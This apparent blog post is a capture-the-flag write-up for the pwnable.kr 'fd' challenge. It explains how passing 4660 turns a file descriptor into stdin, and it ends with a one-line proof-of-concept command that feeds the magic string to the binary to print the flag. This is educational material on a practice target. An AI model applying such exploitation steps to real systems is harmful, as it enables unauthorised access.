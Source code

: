 ```yaml
---
layout: post
title:  "Pwnable.kr: fd Writeup"
date:   2024-08-09 10:03:24 +0530
categories: binary-exploitation binex-labs
---
```


### Challenge URL

[Pwnable.kr](https://pwnable.kr/play.php)


### Challenge

We are given a binary (`fd`), a C file (`fd.c`), and a flag (`flag`). We do not have the permission to view the flag but we can somehow manipulate the input to the binary to get the flag.

Let's copy the necessary files from pwnable.kr's server to our local machine.
{% highlight shell %}
ssh -p 2222 fd@pwnable.kr
# Enter password 'guest' when prompted
ls
{% endhighlight %}

{% highlight shell %}
scp -P 2222 fd@pwnable.kr:/home/fd/fd.c .
# Enter password 'guest' when prompted
vi fd.c
{% endhighlight %}


### Solution

Now we have the following C code:
{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
{% endhighlight %}

According to the code, first it will check if the argument count (`argc`) is at least 2, if it is not then it will print **_"pass argv[1] a number"_** and exit. We know that whenever we run an executable the first argument is the path to the binary itself, so we need to pass 1 more argument and based on the exit prompt, it needs to be a number.

Now when we pass a number as an argument, the program will put that in a function `atoi()`. According to the docs:
> The atoi() function converts the initial portion of the string pointed to by nptr to int.

It will then subtract `0x1234` or `4660` (in decimal) from that integer, the result is then assigned to an integer variable called `fd`. The fd variable is later being passed to `read()` function as a file descriptor and the `read()` function is storing the input to a 32 bytes sized buffer. A file descriptor is just a number we get when we open a connection to a file and in Linux almost everything is a file, we also know that in Linux the file descriptor 0 is for stdin, 1 is for stdout and 2 is for stderr.

This means that if we pass the number `4660` as the argument to the binary, the value of the fd variable will be 0:
{% highlight python %}
fd = atoi(4660) - 0x1234
fd = 4660 - 0x1234
# Remember that the value of 0x1234 is 4660 in decimal
fd = 0
{% endhighlight %}
So, now we can pass the input to the program through stdin. Okay, now the program checks if the value in the buffer is **"LETMEWIN\n"**, if it is then it will print out the flag, this looks easy enough, we just need to enter that as the input to the program.

Here's a POC to make it faster:
{% highlight shell %}
ssh -p 2222 fd@pwnable.kr "echo -ne \"LETMEWIN\n\" | ./fd 4660"
# Enter password 'guest' when prompted
{% endhighlight %}

This will get us our flag.
Happy hacking :D
